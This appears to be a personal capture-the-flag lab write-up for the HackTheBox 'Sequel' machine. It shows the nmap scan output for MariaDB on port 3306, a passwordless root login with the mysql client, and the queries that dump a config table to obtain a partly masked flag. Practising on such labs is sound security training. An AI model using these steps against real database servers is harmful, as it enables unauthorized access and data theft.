 ## Lab Title: Sequel
- Date: 2025-08-04
- Duration: ~30 minutes

### Platform: HTB – Starting Point > Tier 1

### 1. Scenario Summary
- Learn how to work with MySQL Database >> Nmap for enumeration

### 2. Findings
- MySQL     >> port number: 3306 (default one for client-server connections)
- nmap      >> enumeration
    - `nmap $ip -A -sV -p T:3306`
    - MariaDB
    ```code
        3306/tcp open  mysql?
        | mysql-info:
        |   Protocol: 10
        |   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
        |   Thread ID: 127
        |   Capabilities flags: 63486
        |   Status: Autocommit
        |   Salt: v9U~>W{&Hv;`QXF4rbtB
        |_  Auth Plugin Name: mysql_native_password
    ```

- `mysql`       >> client-side commandline utility to connect to DB server
    - `mysql -h $ip -u root` >> to connect to host >> with root user >> MariaDB allows without password
    - Inside the SQL server:
        - `show databases;`
        - `use htb` >> use certain database
        - `show tables;`
        - `select * from config` >> all entries from `config` table of htb database

    - Flag: `7**************1a39e3d*****15d**` is obtained
### 3. Idea
- Identify the open port >> 3306 >> mysql >> identify what version it has >> root without password >> play with database server inside.
